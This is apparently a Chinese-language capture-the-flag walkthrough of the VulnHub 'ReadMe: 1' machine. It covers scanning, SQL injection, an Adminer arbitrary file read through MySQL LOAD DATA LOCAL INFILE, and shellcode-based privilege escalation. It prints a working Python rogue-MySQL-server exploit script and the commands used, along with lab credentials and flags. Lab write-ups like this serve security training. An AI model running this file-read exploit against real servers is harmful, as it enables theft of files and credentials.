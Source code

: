 # ReadMe: 1

2025.02.22 https://www.vulnhub.com/entry/readme-1,336/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

web 扫描发现 http://192.168.5.40/info.php 是 phpinfo 页面，mysql 版本 mysqlnd 5.0.12-dev ，仔细看一下 info.php 中 mysql 的配置信息，发现 mysqli.allow_local_infile = on 这里就可以加载客户端所在系统的文件到数据库，同时 open_basedir 没有设置。

发现另外一个页面 http://192.168.5.40/adminer.php 是个数据库管理页面，同时发现版本是 4.4.0 。这里就可以结合上面的配置，读取运行 adminer 网页的系统上的文件，前提是只要这个 adminer 能够连接远程的 mysql 服务就可以，adminer 默认开启远程连接。在 adminer 的后续高版本上已经修复了这个本地读取的漏洞。

发现 http://192.168.5.40/reminder.php 里面说密码在 txt 文件中，然后下面是一个搜索 username 的搜索框，输入单引号报错，存在 sql 注入，直接使用 sqlmap 跑，但是没发现信息，查看源码，发现图片的路径有提示：

```
that-place-where-i-put-that-thing-that-time/565b0f4691fe5
```

发现了目录的名字 that-place-where-i-put-that-thing-that-time，打开这个目录链接 http://192.168.5.40/that-place-where-i-put-that-thing-that-time/ 发现 creds.txt：

```
creds.txt -> /etc/julian.txt
```

这里需要读取到这个 /etc/julian.txt 文件。

可以利用 adminer 远程连接我们自己搭建的 mysql，然后利用 load local data 读取到目标机器上的 /etc/julian.txt 文件到我们自己搭建的数据库。

在 kali 上授权远程数据库连接，创建 test 数据库和 test 表用于接收数据：

```
grant all privileges on *.* to 'root'@'%' identified by 'mysql';

create database test;
use test;
create table test(name varchar(500));

SET GLOBAL local_infile = true;
SHOW GLOBAL VARIABLES LIKE 'local_infile';  # 要保证自己搭建的mysql开启这个参数
+---------------+-------+
| Variable_name | Value |
+---------------+-------+
| local_infile  | ON    |
+---------------+-------+
```

在 adminer.php 上连接我们自己 kali 上的数据库(这里服务器地址填 kali 的 ip 地址)，在 adminer 中执行下面语句导入本地文件：

```
load data local infile '/etc/julian.txt' into table test;    # 读取mysql客户端也就是运行adminer.php的机器上的本地文件到数据库。不加local是读取mysql服务器的文件，添加local参数为读取client本地文件。
```

这时在读取这个表就能看到 julian 的 ssh 连接密码：

```
select * from test;
+-----------------------------------------------------------------------------+
| name                                                                        |
+-----------------------------------------------------------------------------+
| U: julian                                                                   |
| P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh |  <-- ssh的连接密码
+-----------------------------------------------------------------------------+
```

或者自己用 python 搭建一个 mysql 的模拟服务端，也可以读取文件：

```
import socket
import logging
import sys
logging.basicConfig(level=logging.DEBUG)

filename=sys.argv[1]
sv=socket.socket()
sv.setsockopt(1,2,1)
sv.bind(("",33060))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
```

使用 python2 运行上述脚本，然后在 adminer.php 上进行连接，server 输入 192.168.5.3:33060 , 用户名和密码随意输，直接点 login

```
python2 exp.py '/etc/julian.txt'

INFO:root:Conn from: ('192.168.5.40', 43350)
INFO:root:auth okay
INFO:root:want file...
INFO:root:VU: julian
P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh
```

这里有这个漏洞的详细解析：https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/Adminer/Adminer%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/

登陆后拿到了 user flag：

```
julian@readme:~$ cat  user.txt
2e640cbe2ea53070a0dbd3e5104e7c98
```

julian 没有 sudo 权限，同时其他 suid 和 crontab 等都没有利用路径。

这里在另外一个用户 /home/tatham 中发现了 payload.bin 和 poc.c ，根据文件命名，像是提权提示。需要得到 payload.bin 中的 shellcode 信息，将 payload 中的二进制代码复制到 poc.c 中进行编译，并且用 gdb 做了一些汇编代码修复。

最终得到了该用户的登陆密码：

```
U28uLi5Zb3VGaWd1cmVkT3V0SG93VG9SZWNvdmVyVGhpc0h1aD9HR1dQbm9SRQ==
```

对上面进行 base64 解码得到密码：

```
So...YouFiguredOutHowToRecoverThisHuh?GGWPnoRE
```

切换到 tatham 后，sudo -l 发现是 ALL 可以直接提权到 root：

```
root@readme:~# cat root.txt
52eeb6cfa53008c6b87a6c79f4347275
```
